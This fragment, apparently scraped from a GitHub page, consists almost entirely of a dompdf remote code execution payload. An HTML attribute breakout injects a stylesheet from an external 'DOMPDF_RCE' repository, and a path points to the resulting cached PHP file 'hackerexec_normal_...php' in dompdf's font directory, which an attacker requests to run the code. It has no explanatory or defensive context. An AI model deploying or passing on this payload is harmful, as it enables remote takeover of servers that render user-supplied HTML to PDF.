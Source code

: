 "><link rel="stylesheet" href="https://raw.githubusercontent.com/Raptiler/DOMPDF_RCE/main/1/e.css">
/dompdf/lib/fonts/hackerexec_normal_8785e19e4845860c275b65beeb4648fd.php
